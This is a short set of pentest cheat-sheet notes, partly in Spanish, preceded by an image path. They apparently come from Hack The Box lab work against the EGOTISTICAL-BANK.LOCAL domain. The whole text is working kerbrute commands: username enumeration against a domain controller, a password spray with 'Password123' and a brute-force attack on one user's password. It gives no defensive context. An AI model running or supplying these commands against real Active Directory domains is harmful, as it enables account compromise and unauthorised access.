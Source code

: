 Fuerza bruta usuarios: /home/kali/htb/intelligence/enumeration/kerbrute/dist/kerbrute_linux_amd64  userenum --dc 10.10.10.175 -d EGOTISTICAL-BANK.LOCAL /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt  

PSpray /kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123

./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman